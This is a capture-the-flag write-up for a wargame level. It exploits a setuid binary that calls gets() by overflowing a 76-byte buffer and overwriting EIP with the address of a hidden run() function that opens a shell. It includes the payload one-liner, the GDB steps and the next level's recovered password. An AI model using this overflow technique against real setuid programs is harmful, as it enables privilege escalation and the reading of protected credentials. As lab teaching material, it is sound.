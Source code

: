 Level2 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```

Level2 rights:
```Shell
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
```

When testing, we notice that it only waits for user input and exits.
Decompiling with Ghidra on https://dogbolt.org/ shows two things:
- `gets()` is used with a buffer of 76 bytes
- there is an unused `run()` function that opens a shell

The goal is therefore to find a way to access the `run()` function. `gets()` major vulnerability is not checking
the size of input with the size of the buffer. If you exceed its size, you will overwrite data that can affect the flow of 
execution. There is a specific register in each function (`EIP`, for Instruction Pointer) that stores the address
of the next instruction: we must find where it is and overwrite it with the address of `run()`.

First, let's find `run()`'s address with GDB:
```Shell
(gdb) info function
[...]
0x08048444  run
[...]
```

We know that `EIP` sits right after the end of our buffer.
Using python we craft a payload that will:
- fill the buffer
- overwrite `EIP` with `run()`'s address
The address must be written in what is conventionnally known as Little Endian because our VM system is using that.
```Shell
python -c "print('A' * 76 + '\x44\x84\x04\x08')" > /tmp/payload1
```

However, launching `run()` and opening a shell is not enough. Using a pipe to send our payload instead of writing it manually
has some consequences:
- the shell inside `run()` becomes non-interactive
- it doesn't wait for user input because it encountered EOF and exits almost immediately.
It makes it impossible to write our commands and retrieve the password.
We can bypass that by adding `-` after the first `cat` command to keep stdin open, thus preventing the shell from exiting.
```Shell
cat /tmp/payload1 - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
